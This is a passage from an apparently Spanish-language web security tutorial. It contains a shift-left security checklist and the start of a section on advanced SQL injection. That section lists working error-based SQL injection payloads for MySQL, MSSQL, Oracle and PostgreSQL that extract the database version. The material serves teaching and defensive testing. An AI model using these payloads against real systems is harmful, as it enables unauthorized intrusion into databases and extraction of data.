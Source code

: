 ### Implicaciones para la Seguridad Moderna

#### Shift-Left Security Approach
```
Modern Security Integration:
├── Design Phase Security
│   ├── Threat modeling integration
│   ├── Security requirement definition
│   ├── Architecture security review
│   ├── Security control selection
│   └── Risk assessment incorporation
├── Development Phase Security
│   ├── Secure coding practices
│   ├── Static analysis integration
│   ├── IDE security plugins
│   ├── Code review security focus
│   └── Security unit testing
├── Testing Phase Security
│   ├── Dynamic application security testing
│   ├── Interactive application security testing
│   ├── Penetration testing automation
│   ├── API security testing
│   └── Infrastructure security testing
└── Deployment Phase Security
    ├── Container security scanning
    ├── Infrastructure as code security
    ├── Configuration security validation
    ├── Runtime protection deployment
    └── Monitoring and alerting setup
```

---

## Vulnerabilidades Web Específicas

### SQL Injection - Análisis Profundo

#### Técnicas Avanzadas de SQL Injection

**Error-based SQL Injection:**
```sql
-- MySQL Error-based extraction
' AND (SELECT * FROM (SELECT COUNT(*),CONCAT(version(),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) --

-- MSSQL Error-based extraction
' AND 1=CONVERT(int, (SELECT @@version)) --

-- Oracle Error-based extraction
' AND 1=CTXSYS.DRITHSX.SN(1,(SELECT banner FROM v$version WHERE rownum=1)) --

-- PostgreSQL Error-based extraction
' AND 1=CAST((SELECT version()) AS int) --
```
